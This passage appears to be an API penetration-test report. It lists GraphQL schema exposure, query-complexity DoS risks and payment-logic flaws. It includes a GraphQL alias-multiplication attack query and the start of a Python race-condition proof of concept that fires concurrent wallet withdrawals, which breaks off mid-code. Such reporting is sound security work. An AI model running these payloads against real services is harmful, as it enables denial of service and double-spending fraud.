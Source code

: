 **Exposed Information:**
- Complete schema structure
- Hidden administrative fields
- Internal system field names
- Deprecated fields with sensitive data

### Query Complexity and DoS Risks
**Identified Risks:**
1. **Alias-based multiplication attacks**
2. **Circular query references**
3. **Field duplication attacks**
4. **Batch query abuse**

**Example Attack:**
```graphql
query MultipliedQuery {
  user1: user(id: 1) { posts { title content } }
  user2: user(id: 1) { posts { title content } }
  user3: user(id: 1) { posts { title content } }
  # Repeat 1000+ times
}
```

## Business Logic Vulnerabilities

### Workflow Manipulation Attacks
**API Flow:** User Registration → Email Verification → Account Activation

**Vulnerabilities Identified:**
1. **Race condition in verification process**
2. **State manipulation via direct API calls**
3. **Bypass of business rule validations**
4. **Inconsistent state handling**

### Financial Transaction Logic Flaws
**API Endpoints:** Payment processing and wallet management

**Issues Found:**
1. **Double spending through race conditions**
2. **Negative amount handling failures**
3. **Currency conversion manipulation**
4. **Insufficient transaction validation**

**Proof of Concept - Race Condition:**
```python
import threading
import requests

def concurrent_withdraw():
    payload = {
        "account_id": "12345",
        "amount": 1000,
        "currency": "USD"
    }
    
    def withdraw():
        response = requests.post(
            "https://api.company.com/api/v1/wallet/withdraw",
            json=payload,
            headers={"Authorization": "Bearer <token>"}
        )
        return response
    
    # Create multiple concurrent requests
    threads = []
```